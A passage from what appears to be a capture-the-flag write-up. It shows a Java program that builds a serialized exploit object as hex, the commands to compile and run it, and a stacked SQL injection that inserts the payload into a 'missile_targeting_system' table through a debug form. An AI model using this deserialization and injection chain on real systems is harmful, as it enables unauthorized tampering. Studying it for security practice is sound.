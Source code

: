 ```
            true,
            true
        );

        try {
            // Serialize the object to a byte array
            ByteArrayOutputStream baos = new ByteArrayOutputStream();
            ObjectOutputStream oos = new ObjectOutputStream(baos);
            oos.writeObject(exploitObject);
            oos.close();
            
            // Convert the byte array to a hex string
            byte[] byteArray = baos.toByteArray();
            String hexString = bytesToHex(byteArray);
            System.out.println(hexString);
            
        } catch (IOException i) {
            i.printStackTrace();
        }
    }

    // Helper method to convert byte array to hex string
    private static String bytesToHex(byte[] bytes) {
        StringBuilder hex = new StringBuilder();
        for (byte b : bytes) {
            hex.append(String.format("%02X", b));
        }
        return hex.toString();
    }
}
```

We can name it as ```SerializeExploit``` and compile it with the Java class: 
```
javac SerializeExploit.java -cp ".:gson-2.8.0.jar"
```
Run it: 
```
java -cp ".:gson-2.8.0.jar" SerializeExploit
```
We get a hex string. We attach the hex string to our SQL commands: 

```
; INSERT INTO missile_targeting_system.satellite_query (jid, object, results) VALUES (7, UNHEX('ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174005A55504441544520606D697373696C655F746172676574696E675F73797374656D602E60706F696E74696E675F6D6F6465602053455420606E756D65726963616C5F6D6F646560203D20312057484552452060696460203D20313B'), ' ');
```

We can send this SQL command by click submitAction on Debug row and select Edit and put the command as AttributeValue value and click submit. 
